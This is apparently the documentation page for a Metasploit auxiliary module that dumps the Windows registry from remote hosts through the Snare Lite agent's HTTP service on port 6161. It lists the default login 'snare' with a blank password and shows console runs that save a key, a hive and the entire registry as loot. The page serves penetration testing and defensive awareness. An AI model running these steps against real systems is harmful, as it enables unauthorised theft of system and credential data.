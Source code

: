 ## Description

  This module uses the Registry Dump feature of the [Snare Lite for Windows](https://sourceforge.net/projects/snare/) HTTP service on 6161/TCP to retrieve the Windows registry. The Registry Dump functionality is unavailable in Snare Enterprise.

  **Note: The Registry Dump functionality accepts only one connected client at a time. Requesting a large key/hive will cause the service to become unresponsive until the server completes the request.**


## Vulnerable Application

  SNARE (System iNtrusion Analysis and Reporting Environment) is a series of log collection agents that facilitate centralised analysis of audit log data.

  This module has been tested successfully with Snare Lite for Windows version 4.0.2.0 on Windows XP SP3.

  Snare Lite for Windows is no longer supported, however a [free trial is available](http://www.snarealliance.com/snare-open-source-agent-downloads-submission/) from the Snare Alliance website.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/gather/snare_registry`
  3. Do: `set rhost [IP]`
  4. Do: `set HttpUsername [USERNAME]`
  5. Do: `set HttpPassword [PASSWORD]`
  6. Do: `run`
  7. You should get a copy of *HKLM\HARDWARE\DESCRIPTION\System* from the remote Windows system


## Options

### HttpUsername

The username for Snare remote access (default: `snare`).

### HttpPassword

The password for Snare remote access (default: blank).

### REG_DUMP_KEY

Retrieve the specified registry key and all sub-keys.

### REG_DUMP_ALL

Retrieve the entire Windows registry.

### TIMEOUT

Timeout in seconds for downloading each registry key/hive.


## Scenarios

Retrieve a specific registry key:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_KEY HKLM\\HARDWARE\\DESCRIPTION\\System
  REG_DUMP_KEY => HKLM\HARDWARE\DESCRIPTION\System
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving registry key 'HKLM\\HARDWARE\\DESCRIPTION\\System'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (23092 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133011_default_192.168.18.155_snare.registry_842138.txt
  [*] Auxiliary module execution completed
  ```

Retrieve an entire hive:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_KEY HKLM
  REG_DUMP_KEY => HKLM
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKLM'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (10657975 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133147_default_192.168.18.155_snare.registry_247207.txt
  [*] Auxiliary module execution completed
  ```

Retrieve the entire registry:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_ALL true
  REG_DUMP_ALL => true
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving list of registry hives ...
  [+] 192.168.18.155:6161 - Found 5 registry hives (HKEY_CLASSES_ROOT, HKEY_CURRENT_CONFIG, HKEY_CURRENT_USER, HKEY_LOCAL_MACHINE, HKEY_USERS)
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CLASSES_ROOT'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (3933816 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133222_default_192.168.18.155_snare.registry_070659.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CURRENT_CONFIG'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (5605 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133222_default_192.168.18.155_snare.registry_376606.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CURRENT_USER'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (269927 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133223_default_192.168.18.155_snare.registry_653681.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_LOCAL_MACHINE'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (11446508 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133336_default_192.168.18.155_snare.registry_003003.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_USERS'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (1668306 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133342_default_192.168.18.155_snare.registry_236335.txt
  [*] Auxiliary module execution completed
  ```

